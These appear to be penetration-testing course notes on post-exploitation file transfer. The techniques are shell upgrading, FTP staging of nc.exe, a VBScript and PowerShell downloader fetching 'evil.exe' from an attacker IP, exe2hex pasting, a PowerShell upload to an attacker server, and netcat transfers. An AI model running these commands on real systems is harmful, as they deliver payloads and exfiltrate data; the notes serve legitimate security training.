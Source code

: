 do not install new tool, use native tools

# pure-ftpd
//install on kali
sudo apt update && sudo apt-y install pure-ftpd

# non-interactive shells
lack job control, su support, etc. or any feedback on what we are doing

* ``ls`` command not interactive
* ``ftp`` is an interactive program (requires user interaction to complete)
* go get interactive shell:
``python -c "import pty;pty.spawn('/bin/bash')"``

# windows 
## File transfer via FTP
* in our kali place this binary: ``sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/``
* restart ftp: ``sudo systemctl restart pure-ftpd``
* on target windows system: transfer file of *ftp.txt* by typing: ``ftp -v -n -s:ftp.txt`` should be the kali ip, *kali* is the ftp pw in this file
* The ftp -s option accepts a text-based command list that effectively makes the client noninteractive.

## Windows Downloads Using Scripting Languages
### older windows systems
#### typing following commands in a windows system's cmd
``` c
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
#### execute wget
* use (file)[scripts\filedownload\wget.vbs] to get download a file
* cpy the wget on linux by ``sudo cp /usr/share/windows-resources/binaries/wget.exe /var/www/html/``
* start apache
* execute command ``cscript wget.vbs http://10.11.0.4/evil.exe evil.exe``

## newer windows system with powershell
### install wget
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
more on offsecs slides

### decreasing file size
compresses file by 50%
``sudo upx -9 nc.exe``

## file downloads via e2ehex and powershell
* decreate file size (see previous comment)
* execute script: ``exe2hex -x nc.exe -p nc.cmd``
* generates a nc.cmd via hex code
* copy commands from nc.cmd in the clipboard by: ``cat nc.cmd | xclip -selection clipboard``
* we can paste i then into our windows machine cmds (bind shell) 

## getting data from a client to our kali machine (via http post request)
* create [upload.php](scripts/filetransfers/upload.php) file in ``var/www/html/upload.php``
* create uploads folder in apache ``sudo mkdir /var/www/uploads``
* modifying folder permissions: ``ps -ef | grep apache`` by giving the www-data user owner and write permissions on oploads folder: ``sudo chown www-data: /var/www/uploads``
* On windows machine run: ``powershell(New-Object System.Net.WebClient).UploadFile('http://192.168.0.9/upload.php', 'fileToTransfer.jpg')``

# for very old windows machines
* first install an configure tft servers in kali
=> see slides

# linux and netcat
* on a system open bind shell for a specific file f.e.: ``nc -nlvp 4445 > C:\Users\offsec\binary.exe``
* on kali we send our binary.exe to our windows client: ``nc -w 3 10.11.0.22 4445 < binary.exe``